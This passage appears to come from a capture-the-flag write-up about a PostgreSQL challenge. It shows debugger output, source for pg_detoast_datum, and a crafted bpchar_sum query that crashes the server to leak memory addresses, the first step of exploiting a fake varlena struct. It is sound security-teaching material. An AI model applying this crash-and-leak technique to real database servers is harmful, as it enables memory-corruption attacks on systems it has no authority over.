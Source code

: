 ```c
   0x556a617052e8 <varchar_sum+40>    mov    rdi, qword ptr [rdi + 0x30]
 ► 0x556a617052ec <varchar_sum+44>    call   pg_detoast_datum                <pg_detoast_datum>
        rdi: 0x556a637f81b0 ◂— 'AABBCCDD'
        rsi: 0x556a638b44e0 ◂— 0x2
        rdx: 0x556a638b40a0 ◂— 0x3ff0000000000000
        rcx: 0x556a638b4080 —▸ 0x556a638b4030 —▸ 0x556a617052c0 (varchar_sum) ◂— push rbx
```

Cool! We have control over first argument of `pg_detoast_datum` function. Here is the source of it:

```c
struct varlena
{
	char		vl_len_[4];		/* Do not touch this field directly! */
	char		vl_dat[FLEXIBLE_ARRAY_MEMBER];	/* Data content is here */
};

struct varlena *
pg_detoast_datum(struct varlena *datum)
{
	if (VARATT_IS_EXTENDED(datum))
		return heap_tuple_untoast_attr(datum);
	else
		return datum;
}
```

`varlena` is a struct used for representing *toastable* types. `bpchar` is not, so clearly this is a problem here. Now is the time for...

## Exploitation

At this point there is no doubt that we can do *something* with fake `varlena` struct, but we don't know any memory addresses that `postgres` is using. Turns out that this was simpler than we thought. It is enough to crash `postgres` to get a nice stack trace:

```c
postgres=> select bpchar_sum('1', '           AABBCCDD');
ERROR:  	/lib/x86_64-linux-gnu/libc.so.6(+0x1529a0) [0x7f4d470719a0]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(text_to_cstring+0x58) [0x556a61708228]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(varchar_sum+0x39) [0x556a617052f9]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x24ea80) [0x556a614cca80]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(evaluate_expr+0x7a) [0x556a6157ca8a]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x2fec97) [0x556a6157cc97]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x2ff814) [0x556a6157d814]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(expression_tree_mutator+0xc3) [0x556a61518933]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(expression_tree_mutator+0x293) [0x556a61518b03]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(eval_const_expressions+0x38) [0x556a6157e938]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x2e8d28) [0x556a61566d28]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(subquery_planner+0x4d5) [0x556a6156d1c5]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(standard_planner+0x103) [0x556a6156e7e3]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(pg_plan_query+0x28) [0x556a6161c288]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(pg_plan_queries+0x45) [0x556a6161c375]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x39e60d) [0x556a6161c60d]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(PostgresMain+0x1785) [0x556a6161e335]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(+0x32b3e2) [0x556a615a93e2]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(PostmasterMain+0xc91) [0x556a615aa301]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(main+0x483) [0x556a6133e6d3]
	/lib/x86_64-linux-gnu/libc.so.6(+0x271ca) [0x7f4d46f461ca]
	/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0x85) [0x7f4d46f46285]
	postgres: ctf postgres 172.17.0.1(36952) SELECT(_start+0x21) [0x556a6133e791]
```
